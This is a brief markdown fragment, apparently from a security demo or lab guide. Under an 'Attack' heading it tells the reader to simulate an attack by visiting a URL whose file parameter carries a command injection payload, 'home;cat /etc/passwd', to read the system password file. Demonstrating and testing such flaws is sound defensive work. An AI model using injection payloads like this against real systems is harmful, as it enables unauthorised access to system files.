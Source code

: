 # Attack

1. Simulate an attack by visiting [https://app1.40docs.com/login.php?file=home;cat%20/etc/passwd](https://app1.40docs.com/login.php?file=home;cat%20/etc/passwd)


